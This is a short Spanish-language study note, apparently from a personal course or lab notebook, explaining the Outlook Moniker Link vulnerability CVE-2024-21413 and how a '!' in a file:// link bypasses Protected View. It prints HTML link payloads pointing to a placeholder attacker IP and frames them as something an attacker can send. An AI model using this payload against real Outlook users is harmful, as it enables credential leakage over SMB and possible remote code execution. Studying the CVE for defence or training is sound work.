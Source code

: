 ```yaml
---
layout: apunte
title: "2. Moniker Link (CVE-2024-21413)"
---
```


Outlook puede renderizar emails como HTML. Además, Outlook puede parsear hiperlinks como HTTP y HTTPS. De cualquier forma, también puede abrir enlaces especificando aplicaciones, conocido como Moniker Links. Normalmente, Outlook lanza un mensaje de riesgo de seguridad cuando se disparan aplicaciones externas.

!**134.jpg**

Este pop-up es el resultado del modo "Vista Protegida" de Outlook. Este modo abre emails que contienen archivos adjuntos, hiperlinks y demás en modo de sólo lectura, bloqueando cosas como las macros.

Al usar `file://` en el moniker link podemos decirle a Outlook que acceda a un archivo, como uno en la red compartida (`a href="file://IP_ATACANTE/test>Click me</a>`). El protocolo SMB es usado, lo que implica usar credenciales locales para autentificación. Sin embargo, el modo "vista protegida" atrapa y bloquea este intento.

```html
<p><a href="file://IP_ATACANTE/test">Click me</a></p>
```

La vulnerabilidad aquí existe al modificar el hiperenlace para incluir el carácter especial `!`, lo que resulta en el bypass del modo protegido de Outlook.

```html
<p><a href="file://IP_ATACANTE/test!exploit">Click me</a></p>
```

Como atacantes podemos ofrecer este link para el ataque. La compartición no tiene por qué existir en el dispositivo remoto. La ejecución remota de comandos (RCE) es posible porque el Moniker Link usa el modelo de objetos componentes (COM).